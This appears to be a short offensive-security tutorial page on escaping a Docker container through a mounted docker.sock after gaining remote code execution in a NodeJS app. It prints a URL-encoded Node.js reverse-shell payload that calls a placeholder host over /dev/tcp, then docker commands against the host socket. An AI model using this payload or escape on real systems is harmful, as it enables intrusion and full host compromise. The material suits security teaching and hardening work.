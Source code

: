 ```yaml
---
description: Attacking volume mounts
---
```


# Volume Mounts

## Volume Mounts

If, an attacker would be able to exploit an application-level vulnerability, for example a NodeJS application using remote code execution to gain a reverse shell, then they would check into using the volume mounted `docker.sock` to gain privileges in the host system with docker runtime.

Exploiting the RCE

```
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/x.x.x.x/5555 0>%261"')
```

Now that the attacker has:

* Shell inside the docker container, they can explore the container for post exploitation
* They see that `ls -l /var/run/docker.sock` is available and mounted from the host system.

> **This allows the attacker to access the host docker service using host option with docker client by using the UNIX socket**

* The docker client is already downloaded into the container and is at `/root/docker`

```
cd /root/docker/
ls -l
```

* To access the host resource using the `docker.sock` UNIX socket, an attacker would run the following, giving full privilege over the host system.

```
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
```
